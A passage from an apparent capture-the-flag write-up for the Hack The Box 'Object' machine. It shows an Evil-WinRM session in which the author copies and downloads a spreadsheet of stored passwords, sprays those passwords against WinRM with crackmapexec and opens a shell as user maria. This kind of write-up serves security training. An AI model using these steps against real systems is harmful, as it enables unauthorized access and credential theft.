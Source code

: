 Interesting, there is a file named **Engines.xls**. Let's copy this file in **C:\ProgramData** and download it.

```bash
*Evil-WinRM* PS C:\ProgramData> echo "copy C:\Users\maria\Desktop\Engines.xls C:\ProgramData\" > script.ps1
*Evil-WinRM* PS C:\ProgramData> download Engines.xls
                                        
Info: Downloading C:\ProgramData\Engines.xls to Engines.xls
                                        
Info: Download successful!
```

The file seems to contain multiple passwords for **maria**. 

![image-center](/images/htb/htb_object_excel.png){: .align-center}

We can try to do a quick password spray to see if yield any results.

```bash
$ crackmapexec winrm 10.129.96.147 -u maria -p pass.txt
[*] completed: 100.00% (1/1)
SMB         10.129.96.147   5985   NONE             [*] None (name:10.129.96.147) (domain:None)
HTTP        10.129.96.147   5985   NONE             [*] http://10.129.96.147:5985/wsman
WINRM       10.129.96.147   5985   NONE             [-] None\maria:d34gb8@
WINRM       10.129.96.147   5985   NONE             [-] None\maria:0de_434_d545
WINRM       10.129.96.147   5985   NONE             [+] None\maria:W3llcr4ft3d_4cls (Pwn3d!)
```

Nice! We got a valid password.

```bash
$ evil-winrm -i 10.129.96.147 -u maria -p W3llcr4ft3d_4cls
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\maria\Documents> 
```
